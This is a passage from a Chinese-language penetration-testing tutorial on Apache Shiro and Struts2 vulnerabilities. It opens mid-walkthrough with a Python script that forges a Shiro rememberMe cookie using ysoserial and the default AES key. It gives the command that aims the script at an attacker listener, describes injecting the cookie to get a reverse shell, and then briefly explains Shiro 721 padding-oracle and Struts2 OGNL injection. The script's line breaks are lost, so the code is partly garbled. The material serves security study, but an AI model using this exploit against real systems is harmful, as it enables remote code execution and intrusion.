 ![image-20230419011409003](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5TicybicpnD9XXN02LuqeKEW6ibLMyJCVNJBEcRF2hdYSCZAEEFrxlIUCg/640?wx_fmt=png&from=appmsg "")  
  
接下来去利用密钥伪造**rememberMe**  
字段，脚本如下  
```
import sysimport uuidimport base64import subprocessfrom Crypto.Cipher import AESdefencode_rememberme(command):    popen = subprocess.Popen(['java','-jar','ysoserial-all.jar','JRMPClient', command], stdout=subprocess.PIPE)    BS = AES.block_size    pad =lambda s: s +((BS -len(s)% BS)*chr(BS -len(s)% BS)).encode()    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")    iv = uuid.uuid4().bytes    encryptor = AES.new(key, AES.MODE_CBC, iv)    file_body = pad(popen.stdout.read())    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))return base64_ciphertextif __name__ =='__main__':    payload = encode_rememberme(sys.argv[1])print"rememberMe={0}".format(payload.decode())
```  
  
而后运行**python2 shiro.py 192.168.1.129 7777**  
  
![image-20230419191959439](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK56Asyj2hhvtAb9nXd3jqmibOATAJxv0qP9PrhZVsKRnu2G6qwwXlHALw/640?wx_fmt=png&from=appmsg "")  
  
接下来对网站进行抓包，在Cookie中添加我们伪造的**rememberMe**  
参数  
  
![image-20230419185428696](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5krKCy4v5FgHoRCQhORzNWpRfFQOxPlXRjE3aPRG3DwN9VNeL0UuEqw/640?wx_fmt=png&from=appmsg "")  
  
此时查看，已成功反弹shell。  
#### 自动化工具  
  
![image-20230418234451793](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5Ej7d7BHojYicgUYeRtjGBe7KSf2x6WwhpdU3yc6TAG3PibxAHRlP6KIg/640?wx_fmt=png&from=appmsg "")  
## Shiro 721  
### 漏洞原理  
  
在用户进行登录的时候，Apache Shiro提供Rememberme功能，可以存储cookie，期间使用的是AES-128-CBC进行加密，可以通过Padding Oracle加密生成的攻击代码来重新构造一个恶意的rememberMe字段，重新请求网站，进行反序列化攻击，最终导致任意代码的执行。  
  
Shiro721是使用 登录后rememberMe= {value}去爆破正确的key值 进而反序列化，shiro721 本质上是 padding attack，爆破要弄很久。对比Shiro550条件只要有 足够密钥库 （条件较低）、Shiro721需要登录（要求较高 ）。  
# Struts2  
## 漏洞原理  
  
Struts2 漏洞的原理是由于 Struts2 框架中的一个组件，即 OGNL(Object-Graph Navigation Language) 表达式解析器，存在漏洞。OGNL 是一种强大的表达式语言，它允许开发人员在 Struts2 应用程序中使用动态表达式来访问和操作对象。但是，由于 OGNL 表达式解析器的实现不够安全，攻击者可以通过构造恶意 OGNL 表达式来执行任意代码。例如：**当用户提交表单数据并验证失败时，后端会将用户之前提交的参数值使用OGNL表达式%{value}进行解析，然后重新填充到对应的表单数据中。**  
## 漏洞检测  
```
.do或者 .action 的网站后缀
```  
## 漏洞复现  
#### s2-001  
  